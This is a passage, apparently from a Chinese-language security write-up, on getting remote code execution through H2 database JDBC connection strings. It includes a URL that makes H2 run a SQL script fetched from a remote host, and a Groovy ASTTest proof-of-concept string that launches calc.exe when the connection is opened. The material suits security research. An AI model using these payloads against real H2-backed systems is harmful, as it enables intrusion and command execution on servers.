 ![](./img/2023-07-24-18-47-42.png)   
所以SQL语句是支持执行远程地址的sql文件.  
比如`jdbc:h2:mem:test;INIT=runscript from 'http://172.21.165.206:8080/init.sql'`  
![](./img/2023-08-03-10-51-08.png)  
#### 本地执行SQL
##### Groovy
而如果目标不能连接到外部地址,那么则不能通过远程SQL文件来RCE,而`CREATE ALIAS`还支持Groovy语言来创建UDF,而Groovy的元编程特性可以导致在Groovy编译时就执行代码,因为在h2 JDBC连接时从无法直接在JDBC连接字符串中连续执行多条语句.
需要依赖
```xml
        <dependency>
        <groupId>org.codehaus.groovy</groupId>
        <artifactId>groovy-sql</artifactId>
        <version>3.0.8</version>
    </dependency>
```
poc
```
        String url = "jdbc:h2:mem:test;init=CREATE ALIAS shell2 AS \n" +
                "$$@groovy.transform.ASTTest(value={\n" +
                " assert java.lang.Runtime.getRuntime().exec(\"cmd.exe /c calc.exe\")\n" +
                " })\n" +
                " def x$$";
```